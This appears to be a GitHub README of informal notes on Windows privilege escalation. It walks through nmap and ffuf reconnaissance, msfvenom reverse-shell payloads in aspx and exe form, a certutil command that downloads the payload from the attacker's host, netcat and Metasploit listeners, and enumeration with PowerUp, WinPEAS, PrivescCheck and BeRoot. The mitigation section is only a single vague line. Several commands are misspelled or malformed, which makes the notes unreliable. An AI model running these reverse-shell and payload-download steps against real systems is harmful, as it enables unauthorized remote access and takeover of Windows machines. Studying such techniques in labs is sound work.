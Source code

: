 # winescalation
Windows Privilege Escalation


Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.


Example - Login to website with someone's account


AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures


2 types:


1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.


2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 


->It basically requires some type of privilages in your hand.


->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.


nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000


If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats , 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx , 


or (2nd method) , 
msfvenom -p windows/x64/shell_reverse_tcp lhost= lport=8989,7777 -f exe -o test.exe 


now upload robensive.aspx or test.exe ,
For uploading (for 2nd method),
python3 -m http.server 8000(for running a server from the linux terminal),
certutil -urlcache -f -split http:://lhost:8000/test.exe test.exe(On target windows command prompt),
nc -lnvp 8989 (on termainal),
test.exe


run metasploit listener(for 1st method)


msfdb run ,
uer exploit/multi/handler ,
set payload windows/x64/meterpreter/reverse_tcp ,
set lhost=yourip , 
set lport=445(as used before),
run

Now access robensive.aspx via browser and get meterpreter
##Completer Initiall Access##

getuid ,
getprivs ,
sc qc unquotedsvc => cd BINARY_PATH_NAME" ,
cmdkey /list


Enumeration for privsec 
->some known scripts:
PowerUp , 
WinPEAS , 
PrivescCheck , 
BeRoot , 
PayloadAllThings ,
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts


Practical part:
shell , 
net localgroup administrators -> got  all users , 
net user "username" , 
exit

1.Powerup (google it):
wget from github , 
load , 
load powershell , 
help , 
powershell_import PowerUp.ps1 , 
powershell_execurte Invoke_powerup(can cause problem to use  for powerups 


2.Privescheck(google it):
powershell_import PrivescCheck.ps1 , 
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github):
upload winpeasx64.exe(on meterpreter) , 
shell , 
winpeasx64.exe


4.Beroot(install from github ):
upload beRoot.exe , 
shell ,
beroot.exe


#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied

